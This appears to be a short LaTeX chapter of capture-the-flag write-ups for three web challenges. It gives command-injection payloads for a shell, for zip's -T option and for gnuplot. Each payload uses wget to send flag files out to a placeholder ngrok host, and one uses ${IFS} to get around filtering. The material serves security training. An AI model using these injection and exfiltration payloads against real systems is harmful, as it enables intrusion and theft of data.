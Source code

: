 \chapter{Writeups}

\section{WS_1.01 - BasicRCE}
\texttt{;wget$\{IFS\}https://<your-token>.ngrok-free.app/\$(cat$\{IFS\}/flag.txt)}

\section{WS_1.03 - ZipZap - level 2}
\texttt{zip archive.zip ./-T ./-TT "bash rce" rce}

 containing: \texttt{wget https://<your-token>.ngrok-free.app/\$(/getflag)}

\section{WS_1.04 - plottyboy}
Identification: \texttt{sin(x); pause 10")} -> 10 seconds are waited before the rendered image is served? yes.
This demonstrates the system uses gnuplot (acually, wrapped with PyGnuplot).

\texttt{sin(x); print system("wget https://<your-token>.ngrok-free.app/\$(cat /flag.txt)")}